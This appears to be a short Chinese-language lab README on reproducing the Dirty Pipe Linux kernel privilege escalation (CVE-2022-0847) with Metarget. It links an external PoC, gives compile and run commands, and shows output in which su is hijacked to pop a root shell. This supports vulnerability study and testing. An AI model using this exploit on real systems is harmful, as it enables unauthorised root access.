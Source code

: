 # Linux内核漏洞导致权限提升（CVE-2022-0847）

## 场景介绍

请参考[Max Kellermann的文章](https://dirtypipe.cm4all.com)，下文的PoC出自[dirtypipez.c](https://haxx.in/files/dirtypipez.c)。

## 环境搭建

宿主机环境：

- Ubuntu 18.04

首先切换内核，直接通过Metarget安装环境

```
./metarget cnv install cve-2022-0847 --verbose
```

## 漏洞复现

```bash
gcc -o poc poc.c
```

编译好[poc.c](poc.c)，执行即可。例如：

```
ubuntu@test:~$ ls
poc  poc.c
ubuntu@test:~$ ./poc `which su`
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
```